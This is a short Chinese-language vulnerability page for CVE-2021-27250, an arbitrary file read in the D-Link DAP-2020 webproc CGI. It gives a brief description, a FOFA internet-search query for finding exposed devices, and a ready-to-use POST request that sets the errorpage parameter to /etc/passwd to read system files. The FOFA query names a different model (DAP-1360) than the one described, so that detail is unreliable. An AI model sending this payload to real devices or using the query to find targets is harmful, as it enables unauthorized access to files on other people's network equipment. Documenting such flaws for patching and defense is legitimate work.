 # D-Link DAP-2020 webproc 任意文件读取漏洞 CVE-2021-27250

## 漏洞描述 

近日D-Link发布公告[1]称旗下产品DAP-2020存在任意文件读取漏洞，CVE编号为CVE-2021-27250，目前已在硬件版本：A1，固件版本：1.01 上测试了PoC，由于漏洞影响核心组件，因此其他版本也可能受到此漏洞的影响

## 漏洞影响

```
D-LINK DAP-2020
```

## FOFA

```
body="DAP-1360" && body="6.05"
```

## 漏洞复现

登录页面

![image-20220715110127290](./images/202207151101366.png)

验证POC

```
POST /cgi-bin/webproc

getpage=html%2Findex.html&errorpage=/etc/passwd&var%3Amenu=setup&var%3Apage=wizard&var%3Alogin=true&obj-action=auth&%3Ausername=admin&%3Apassword=123&%3Aaction=login&%3Asessionid=3c1f7123
```

![image-20220715110059377](./images/202207151100465.png)